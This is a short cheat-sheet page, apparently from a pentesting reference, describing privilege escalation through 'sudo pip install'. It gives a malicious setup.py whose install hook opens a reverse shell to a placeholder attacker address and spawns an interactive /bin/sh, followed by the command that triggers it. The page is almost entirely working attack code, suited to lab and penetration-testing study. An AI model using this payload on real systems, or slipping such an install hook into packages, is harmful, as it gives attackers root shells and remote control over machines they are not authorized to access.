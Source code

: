 ```yaml
---
title: "Pip"
date: 2025-7-25
tags: ["Exploitation", "Pip", "Pip3", "Python", "Sudo"]
---
```


### Privesc #1: Create a Malicious Package

#### 1. Create a setup.py

```console
#!/usr/bin/env python3

from setuptools.command.install import install
from setuptools import setup
import os
import socket
import subprocess

class Exploit(install):
    def run(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("<LOCAL_IP>",<LOCAL_PORT>)) # CHANGE HERE
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p = subprocess.call(["/bin/sh", "-i"])

setup(
    cmdclass={
        "install": Exploit
    }
)
```

#### 2. Exploit

```console
# Run
sudo pip install .
```
